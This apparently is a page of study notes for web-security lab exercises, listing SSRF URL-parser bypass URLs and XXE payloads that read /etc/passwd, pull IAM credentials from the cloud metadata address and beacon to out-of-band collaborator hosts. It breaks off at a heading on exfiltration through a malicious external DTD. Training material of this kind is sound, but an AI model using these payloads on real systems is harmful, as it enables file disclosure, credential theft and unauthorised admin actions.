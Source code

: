     delete carlos
1. notify stockApi (stock.weliketoshop)
2. add arbitary `#` to `user@URL`
```
http://localhost:80%2523@stock.weliketoshop.net/admin/
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
----
----

# XXE
most of entry points are at check stock

**Exploiting XXE using external entities to retrieve files**

    /etc/passwd
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
---
**Exploiting XXE to perform SSRF attacks**

    SSRF attack
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
---
**Blind XXE with out-of-band interaction**

    out-of-band
    collab
```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<productId>
&xxe;
</productId>
```
---
**Blind XXE with out-of-band interaction via XML parameter entities**

    out-of-band
    collab
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://6w3lbkq8ynfuk13iiwoatdqvlmrjf93y.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId>
</stockCheck>
```
---
**Exploiting blind XXE to exfiltrate data using a malicious external DTD**

